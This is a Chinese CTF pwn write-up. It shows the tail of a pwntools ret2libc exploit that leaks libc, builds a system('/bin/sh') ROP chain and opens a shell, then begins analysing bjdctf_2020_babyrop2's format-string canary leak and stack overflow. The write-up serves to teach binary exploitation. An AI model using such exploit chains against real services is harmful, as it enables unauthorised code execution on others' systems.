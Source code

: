```python
io.send(payload)
#write_addr=u64(io.recv(8))
write_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

payload=junk+p64(pop_rdi)+p64(bin_sh)+p64(system)
io.send(payload)
io.interactive()
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955785.png" alt="image-20220323195200696" style="zoom:80%;" />

题目不是很难，但是在接受write地址的时候自己写的接受错误，原因是我把32位的模板拿过来直接套用了。。。做完感觉对ret2libc又加深了印象。

2022/03/23



#### bjdctf_2020_babyrop2

[借鉴的博客](https://blog.csdn.net/mcmuyanga/article/details/109515081)

检查保护

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955424.png" alt="image-20220324153423990" style="zoom:80%;" />

64位，开启了canary保护和NX保护

ida打开看看

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955392.png" alt="image-20220324153741265" style="zoom:80%;" />

**init**

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955364.png" alt="image-20220324155850179" style="zoom:80%;" />

**gift**

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955969.png" alt="image-20220324155923769" style="zoom:80%;" />

**vuln**

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955711.png" alt="image-20220324160008610" style="zoom:80%;" />

显然在gift函数中使用了printf函数，存在格式化字符串漏洞，可以泄露出canary的值

在vuln函数中，read函数可取的长度是0x64，而buf的长度是0x20，显然是ret2libc问题

**利用思路**：

利用格式化字符串泄露canary，进而利用栈溢出泄露libc，最后构造payload拿到shell
